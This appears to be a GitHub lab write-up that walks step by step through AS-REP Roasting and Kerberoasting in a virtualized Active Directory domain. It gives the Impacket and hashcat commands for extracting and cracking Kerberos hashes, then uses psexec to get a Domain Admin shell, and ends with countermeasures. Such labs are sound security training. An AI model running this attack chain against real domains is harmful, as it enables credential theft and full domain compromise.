




# Hacking Lab: AS-REP Roasting & Kerberoasting in Windows Active Directory

This document presents a complete and step-by-step guide to perform a cybersecurity laboratory in a virtualized environment, reproducing a realistic internal threat scenario involving AS-REP Roasting and Kerberoasting attacks within a Windows Active Directory domain.

## Introduction to the activity

### Scenario

The lab simulates a typical internal attack against an organization that uses **Windows Active Directory**, aiming to escalate privileges and compromise a high-privileged service account.

The environment has the following configuration:

 - Two virtual machines:

   - A Kali Linux machine, acting as the attacker

   - A Windows Server 2022 machine, acting as the Domain Controller (DC) for the domain `kerberoasting.local`

 - The DC hosts:

   - An Active Directory domain named `kerberoasting.local`

   - A domain user named Bob, who has **Kerberos pre-authentication disabled**

   - A high-privileged SQL service account `sqlsvc`, member of the **Domain Admins** group

### Goal

The main objective of this lab is to:

 - Crack the password of Bob using an **AS-REP Roasting attack**

 - Use Bob’s credentials to perform a **Kerberoasting attack**, targeting the SQLSVC account

 - Crack the service ticket offline to retrieve the password and impersonate a Domain Admin


### Threat Model

It is assumed that the attacker:

 - Has access to the **internal network** (same subnet as the DC)

 - Knows that an account in the domain (`Bob`) has **Kerberos pre-authentication disabled**

 - Does not initially possess any valid credentials

## Setting up the Virtual Environment

### Virtual Machines

 -  Kali Linux (Attacker):

    - Tools used: `impacket`, `hashcat`, `nmap`.

    - IP address: dynamically assigned (e.g., 192.168.56.20).

 - Windows Server 2022 (Domain Controller):

   - Domain: `kerberoasting.local`

   - Static IP: `192.168.56.10`

   - Active Directory configured with:

     - User `Bob` (low-privileged, pre-authentication disabled)

     - Service Account `sqlsvc` (member of **Domain Admin** group)

     - SQL Server service associated with `sqlsvc`
  
  > weak passwords were specially chosen for the accounts


## Attack Execution

### Step 1: Identify the Domain Controller

**Scan the local network**:

```bash
nmap -p 389 -A -v -Pn 192.168.56.0/24 
```



Output shows LDAP (port `389`) open on `192.168.56.10` with domain: `kerberoasting.local`

---

### Step 2: Perform AS-REP Roasting on Bob

Since the user `Bob` has **Kerberos pre-authentication disabled**, an attacker can request a `TGT` without providing valid credentials

```bash
GetNPUsers.py kerberoasting.local/bob -dc-ip 192.168.56.10
```
This yields an **AS-REP hash**:



We save the hash to a file:

```bash
cat > tgtticket.hash
```

---

### Step 3: Crack AS-REP Hash

We use `hashcat` tool with the proper mode for **AS-REP Roasting** (`18200`) and a common password dictionary `rockyou`:

```bash
hashcat -m 18200 tgtticket.hash /usr/share/wordlists/rockyou.txt.gz
```



If successful, the password of `Bob` is recovered. In this case:

> bob : ciao123

---

### Step 4: Perform Kerberoasting

Using Bob's credentials, we request a **service ticket** for the `sqlsvc` account:

```bash
GetUserSPNs.py -dc-ip 192.168.56.10 kerberoasting.local/bob:ciao123 -request
```

We can see how the service account is part of the **Domain Admin** group and also provides the **TGS Hash** for the sql service:



We save it:

```bash
cat > tgsticket.hash
```

---

### Step 5: Crack TGS Hash Offline

Now, we try to recover the service account password using hashcat with **Kerberoasting** mode (`13100`):

```bash
hashcat -m 13100 tgsticket.hash /usr/share/wordlists/rockyou.txt.gz
```

After some time, the password is revealed:

> sqlsvc : password123

---

### Step 6: Domain Admin Access

With `sqlsvc` credentials, we now impersonate a Domain Admin:

```bash
psexec.py kerberoasting.local/sqlsvc:password123@192.168.56.10
```

This grants us **interactive shell access** as a **Domain Admin** on the Domain Controller.

---

## Conclusions

This lab clearly demonstrates the **risk of misconfigurations** in Active Directory environments:

- Disabling **Kerberos pre-authentication** for any account makes it vulnerable to **AS-REP Roasting**

- Service accounts with SPNs are potential targets for Kerberoasting, especially if their passwords are weak

- Attackers with internal access can chain these weaknesses to gain full domain control

### Countermeasures

- Never disable **Kerberos pre-authentication** unless absolutely necessary

- Ensure **strong**, **complex passwords** for all accounts, especially service accounts

- Monitor for **unusual** authentication patterns and ticket requests in logs


## Credits

 - AS-REP roasting attack: https://www.youtube.com/watch?v=EVdwnBFtUtQ&ab_channel=Conda

 - Kerberoasting attack: https://www.youtube.com/watch?v=BMBNteDRKHA&ab_channel=WhiteHats

 - ChatGPT: https://chatgpt.com